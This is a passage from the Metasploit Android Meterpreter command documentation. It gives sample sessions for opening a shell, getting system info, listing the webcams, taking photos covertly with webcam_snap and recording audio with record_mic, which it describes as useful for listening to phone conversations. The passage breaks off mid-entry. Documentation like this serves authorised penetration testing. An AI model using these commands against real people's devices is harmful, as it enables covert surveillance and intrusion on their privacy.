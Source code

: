 ```
 19     ksoftirqd/2                                                        root
 22     watchdog/3                                                         root
 23     migration/3                                                        root

...
```

**shell**

The ```shell``` command allows you to interact with a shell:

```
meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=10231(u0_a231) gid=10231(u0_a231) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50231(all_a231) context=u:r:untrusted_app:s0
```

To get back to the Meterpreter prompt, you can do: [CTRL]+[Z]

**sysinfo**

The ```sysinfo``` command shows you basic information about the Android device.

```
meterpreter > sysinfo
Computer    : localhost
OS          : Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
Meterpreter : java/android
```

**webcam_list**

The ```webcam_list``` command shows a list of webcams you could use for the ```webcam_snap```
command. Example:

```
meterpreter > webcam_list
1: Back Camera
2: Front Camera
```

**webcam_snap**

The ```webcam_snap``` command takes a picture from the device. You will have to use the
```webcam_list``` command to figure out which camera to use. Example:

```
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /Users/user/rapid7/msf/uFWJXeQt.jpeg
```

**record_mic**

The ```record_mic``` command records audio. Good for listening to a phone conversation, as well as
other uses. Example:

```
meterpreter > record_mic -d 20
[*] Starting...
[*] Stopped
Audio saved to: /Users/user/rapid7/msf/YAUtubCR.wav
```

**activity_start**

```